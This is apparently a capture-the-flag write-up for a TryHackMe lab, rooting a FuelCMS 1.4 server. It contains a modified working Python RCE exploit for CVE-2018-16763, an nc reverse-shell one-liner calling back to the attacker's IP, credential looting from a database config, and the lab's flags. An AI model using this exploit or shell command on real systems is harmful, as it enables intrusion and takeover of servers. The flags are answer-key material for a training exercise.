





# Ignite Write-up

I started off this CTF by doing some basic enumeration scans.

## Port Scan:

I performed the following port scan:
	
```
sudo nmap -vv -sS -sV -sC -oN nmap_out 10.10.62.131
```

I got only 1 port from the scan:
	
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

## Site Exploration:
	
I opened the Machine_IP in my browser:
	


It looks like it is a content-management site hosted by FuelCMS(v1.4).

Scrolled down, found this:
	


Tried logging in to http://{MACHINE_IP}/fuel with the above credentials:
	


And success! We are in the admin dashboard!



I looked for exploits related to FuelCMS. I found a vulnerablilty for Remote Code Execution: **CVE-2018-16763**. You can see it [here.](https://www.exploit-db.com/exploits/47138)

I made some modifications to the original code:
	
```python
import requests
import urllib

tryhackmeip = raw_input('Please enter your TryHackMe machine\'s IP Address:')
url = "http://" + tryhackmeip

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url) #proxies=proxy)

	cleaned_text = r.text.split('<div style=')[0]
	cleaned_text = cleaned_text.split('system')[1]

	print cleaned_text
```

I tested it out with a **pwd** command:
	
```
~/tryhackme/ignite$ python 47138.py 
Please enter your TryHackMe machine's IP Address:10.10.62.95
cmd:pwd
/var/www/html


cmd:
```

It works! Now I'm going to see if I can get a reverse shell with this exploit.


I set up a NetCat listener on my local PC on port 1234:
	
```
nc -nvlp 1234
```

I then typed the following into the python cmd prompt:
	
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {THM_VPN_IP} 1234 >/tmp/f
```

And I got a reverse shell!

I typed **cd /home/www-data** and performed an **ls** command. I saw a file called **flag.txt**

Here are the contents:
	
```
6470e394cbf6dab6a91682cc8585059b
```

That is our user flag! Now I will try to get root!

I tried to perform a **sudo -l** command, but it did not work without a password.

I then did a search on all files with the SUID set:
	
```
find / -type f -perm /4000 2>/dev/null
```

It returned the following:
	
```
/usr/sbin/pppd
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/bin/su
/bin/ping6
/bin/ntfs-3g
/bin/ping
/bin/mount
/bin/umount
/bin/fusermount
```

I could not find any privilege escalation vectors there.

I then remembered something I saw on the homepage:
	


So I **cd**'d into the **/var/www/html/fuel/application/config** directory. Then I looked at the **database.php** file (I'm only showing the relevant section):

```php
<
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);

```

It lists root's password as **"mememe"**

I then tried the **su -** command with this password, and it worked! I am now root!

I looked in the **/root** directory, and fount the **root.txt** file:
	
```
b9bbcb33e11b80be759c4e844862482d
```

That's the root flag! I hope you found this helpful!	


